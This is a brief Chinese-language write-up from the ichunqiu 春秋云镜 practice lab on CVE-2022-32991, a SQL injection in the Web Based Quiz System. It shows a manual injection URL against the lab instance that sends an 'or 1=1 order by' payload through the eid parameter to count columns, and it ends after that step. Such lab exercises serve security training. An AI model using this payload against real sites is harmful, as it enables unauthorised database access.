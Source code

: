 # 春秋云镜

## CVE-2022-32991 Web Based Quiz System SQL注入

先注册后登录

eid存在漏洞

### 手工注入

猜字段数

```
http://eci-2zeiglmgxybklc8oz8s6.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&n=1&t=10&eid=5b141f1e8399e' or 1=1 order by 5 --%20
```

![image-20230615212033338](%E9%9D%B6%E5%9C%BA.assets/image-20230615212033338.png)
